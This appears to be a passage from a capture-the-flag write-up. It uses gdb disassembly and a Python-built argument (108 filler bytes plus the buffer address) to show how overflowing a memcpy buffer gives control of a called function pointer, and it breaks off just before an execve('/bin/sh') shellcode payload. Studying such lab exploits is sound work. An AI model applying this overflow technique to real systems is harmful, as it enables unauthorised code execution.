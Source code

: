 ```gdb
[...]
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:   mov    DWORD PTR [esp],eax
   0x08048693 <+159>:   call   edx
[...]
```

It prepares several arguments to `call   edx`. Consequently, `edx` contains a function pointer. Let's break all the
steps:

```gdb
   0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
```

Load `[esp+0x10]` to `eax` (`[esp+0x10]` contains the 109th to 112th bytes of our argument: `'AAAA'`). It is the 4 bytes
just after our buffer (used as `dst` by `memcpy`). Since we have the rights to write onto this address: this is the
_weakness_.

```gdb
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
```

Here we have a double dereferencement of `eax`. With `"A" * 112` as argument it obviously segfault. Here is why: we
allready know that if teh argument is bigger than 108 bytes, then it segfaults. After the 108th bytes `memcpy` seems to
copy an address where we shouldn't have access. Since `0x08048682 <+142>:   mov    edx,DWORD PTR [eax]` try to put the
content pointed by `eax` into `edx` it will segfault because this address is now `0x41414141`.

Since we know that, put the address of the beginning of our buffer (`\x0c\xa0\x04\x08` or `0x0804a00c`, the `dst` of
`memcpy`) to see what is going to happen. The argument now looks like:

```gdb
gdb-peda$ run $(python -c 'print "A" * 108 + "\x0c\xa0\x04\x08"')
```

Again, it segfaults but this time later:

```gdb
=> 0x8048693 <main+159>:    call   edx
```

`edx` has loaded our argument end: `0x41414141 ('AAAA')`. It is easy to think about the exploit: let's put a shellcode
in order to execute `execve("/bin/sh", ["/bin/sh"], NULL)` (refers to `level2/Ressources`). The final exploit is like:
